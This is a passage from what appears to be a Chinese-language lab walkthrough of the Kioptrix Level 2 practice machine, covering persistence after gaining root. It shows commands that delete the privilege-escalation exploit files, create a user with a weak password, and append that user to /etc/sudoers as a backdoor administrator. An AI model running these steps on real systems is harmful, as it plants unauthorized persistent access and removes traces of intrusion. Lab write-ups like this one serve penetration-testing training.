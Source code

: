 现在已经将权限提升至root用户

### 权限维持

现在我们有了 root，我们将清理并创建一个用于持久访问的用户。&#x20;

首先，删除提权脚本：

```
root@kioptrix.level2:/tmp$ rm exploit 9542.c  
root@kioptrix.level2:/tmp$ ls -al
total 20
drwxr-xrwx   4 root root 4096 Jun 14 02:57 .
drwxr-xr-x  23 root root 4096 Jun 13 17:52 ..
drwxrwxrwt   2 root root 4096 Jun 13 17:53 .font-unix
drwxrwxrwt   2 root root 4096 Jun 13 17:52 .ICE-unix

```

现在让我们创建自己的用户并授予他 sudo 权限：

```
root@kioptrix.level2:/tmp$ useradd tmd
root@kioptrix.level2:/tmp$ passwd tmd
New UNIX password: 123456.
BAD PASSWORD: it is too simplistic/systematic
Retype new UNIX password: 123456.
Changing password for user tmd.
passwd: all authentication tokens updated successfully.
root@kioptrix.level2:/tmp$ echo tmd ALL=(ALL) ALL >> /etc/sudoers
root@kioptrix.level2:/tmp$ tail -n4 /etc/sudoers
# %users  ALL=/sbin/mount /cdrom,/sbin/umount /cdrom
# %users  localhost=/sbin/shutdown -h now

tmd ALL=(ALL) ALL
```

应为环境问题我这边ssh不能连接，看大佬文章是可以的，下面贴上大佬的博客

{% embed url="https://www.c0dedead.io/" %}

